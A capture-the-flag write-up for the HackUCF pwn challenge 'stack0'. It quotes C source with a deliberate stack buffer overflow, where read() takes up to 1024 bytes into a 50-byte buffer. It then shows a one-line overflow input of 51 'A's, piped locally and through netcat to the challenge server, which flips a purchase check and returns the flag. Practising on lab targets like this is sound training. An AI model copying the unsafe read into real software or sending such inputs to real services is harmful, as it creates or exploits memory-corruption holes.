 # stack0 pt1
**Category:** Pwn

**Points:** 5

**Description:**

Author: C0deH4cker

Read the contents of flag1.txt.

nc ctf.hackucf.org 32101

> **Files:** stack0, stack0.c, libpwnableharness32.so

**Write-up**
This is a buffer overflow challenge, and the code file was provided.

First I tried just running the program:
```bash
> ./stack0
Debug info: Address of input buffer = 0xff862aed
Enter the name you used to purchase this program: fred
This program has not been purchased.
```

The buffer overflow is likely to be in the place the name is entered.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `read()` call into a buffer of 50 chars:
```c
static void handle_connection(int sock) {
	bool didPurchase = false;
	char input[50];
	
	printf("Debug info: Address of input buffer = %p\n", input);
	
	printf("Enter the name you used to purchase this program: ");
	read(STDIN_FILENO, input, 1024);
	
	if(didPurchase) {
		printf("Thank you for purchasing Hackersoft Powersploit!\n");
		giveFlag();
	}
	else {
		printf("This program has not been purchased.\n");
	}
}
```

When the program runs it waits for input at this point, and overflowing the buffer may give a result. At first I tried overrunning by a single byte.
```bash
> python -c "print ('A' * 51)" | ./stack0
Debug info: Address of input buffer = 0xffa3892d
Enter the name you used to purchase this program: Thank you for purchasing Hackersoft Powersploit!
flag1.txt: No such file or directory
```

This shows the program is attempting to load the flag, so I ran it against the server:
```bash
> python -c "print('A' * 51)" | nc ctf.hackucf.org 32101
```

This worked, and gave me the flag.
